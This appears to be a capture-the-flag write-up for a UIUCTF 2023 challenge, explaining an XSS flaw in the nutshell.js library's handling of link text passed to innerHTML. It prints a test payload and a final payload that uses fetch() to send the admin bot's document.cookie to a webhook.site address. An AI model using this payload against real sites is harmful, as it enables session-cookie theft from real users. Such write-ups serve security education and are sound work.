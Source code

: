 Objective:
+ exploit an XSS vulnerability on the web page and retrieve the admin cookie from the admin bot
+ a javascript library imported called 'nutshell.js'
+ source code of that library is available here:https://github.com/ncase/nutshell
+ the library used in the challenge was in the latest version, so here there was a zero-day

Solving:
+ we need to check if we have any gadgets with which we can exploit the xss vuln.(such as innerHTML)
+ After some analysis, from the source code of nutshell.js we can were able to find this : https://github.com/ncase/nutshell/blob/c182586d649153577b985dfd8dfab15e739130f6/nutshell.js#L607-L684
+ In the snippet of the source code provided, it can be observed that it retrieves all “a” tags in the DOM. Then, it creates a “span” element and removes the “:” character from the text using ex.innerText.slice(ex.innerText.indexOf(':')+1). Afterward, the modified text is assigned to linkText.innerHTML and appended to the “ex” element.
+ If we inject an HTML entity into an “a” tag that starts with “:”, it will be reappended to the “ex” element, allowing us to exploit an XSS vulnerability.
+ Simple payload
  ```
  <a>:&lt;img src=x onerror='alert(1)'/&gt;</a>
  ```
+ Yes we got an xss.
+ Now we can get the document.cookie easily by giving our webhook site
Final payload:
```
<a>:&lt;img src=x onerror='fetch("webhook.site/?"+document.cookie)'/&gt;</a>
```
Thus we get the flag.




https://hackmd.io/@Solderet/UIUCTF-2023-peanut-xss
